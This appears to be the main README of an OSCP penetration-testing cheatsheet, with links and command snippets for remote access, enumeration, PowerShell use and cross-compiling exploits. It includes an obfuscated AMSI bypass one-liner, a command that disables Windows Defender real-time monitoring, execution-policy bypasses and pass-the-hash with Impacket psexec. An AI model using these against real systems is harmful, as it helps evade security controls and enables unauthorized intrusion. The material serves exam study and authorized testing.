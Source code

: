 # OSCP_cheatsheet summary
* [General](#General)
   * [Buffer overflow](bufferoverflow.md)
   * [Metasploit](metasploit.md)
* [Enumeration](enumeration.md)
* [Exploitation](exploitation.md)
* [Privilege Escalation Windows](privesc_windows.md)
* [Privilege Escalation Linux](privesc_linux.md)
* [Post Exploitation](post_exploitation.md)

# General
## Other great cheatsheets
- https://github.com/CountablyInfinite/oscp_cheatsheet
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

#### Static binaries
- https://github.com/andrew-d/static-binaries
- https://github.com/ernw/static-toolbox/releases

#### Python error
When receiving the error “/usr/bin/env: ‘python\r’: No such file or directory when running an python exploit.
1.	Open the python file in vim
2.	Use the command ```:set ff=unix```
3.	Save the file. ```:wq```

#### SSH key files
ssh key files needs to be permission 600
```
sudo chmod 600 <FILE>
```

#### SSH allow diffie helman
```
ssh <USER>@<TARGET> -oKexAlgorithms=+diffie-hellman-group1-sha1
```

#### RDP commands
```
xfreerdp /d:<DOMAIN> /u:<USERNAME> /v:<TARGET IP> +clipboard
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD>
```

#### Autorecon
https://github.com/DriftSec/AutoRecon-OSCP
```
sudo /home/user/.local/bin/autorecon -o autorecond 10.11.1.5 10.11.1.7 10.11.1.8 10.11.1.10
```

## CMD
#### Find string
```
| findstr /I “<FIND STRING>”
```

#### Ignore string
```
| findstr /v “<IGNORE STRING>” 
```

## Powershell
#### Powershell flags
- ```-nop```: (```-noprofile```) which instructs powershell not to load the powershell user profile.
-	```-w hidden```: to avoid creating a window on the user’s desktop
-	```-e```: (```-EncodedCommand```) use base64 encoding

#### Start as admin
```
powershell.exe Start-Process cmd.exe -Verb runAs
```

#### AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Disbale AV (Requires local admin)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Powershell execution policy
#### Get execution policy
```
Get-ExecutionPolicy -Scope CurrentUser
```

#### Bypass execution policy flag
```
-ExecutionPolicy Bypass
```

#### Disable execution policy
```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

#### Impacket PSexec impacket
If no LM Hash use an empty one: ```aad3b435b51404eeaad3b435b51404ee```
```
python3 psexec.py -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>@<TARGET>
python3 psexec.py <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
```

## Compiling
#### Compile on linux
```
gcc
```

#### Cross compile exploit code
```
sudo apt install mingw-64
```

#### Compile 32bit Windows
```
i686-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 64bit Windows
```
x86_64-w64-mingw32-gcc something.c -o something.exe
```

#### Compile 32 bit Linux
```
gcc -Wall -o exploit X.c -Wl,--hash-style=both -m32
```
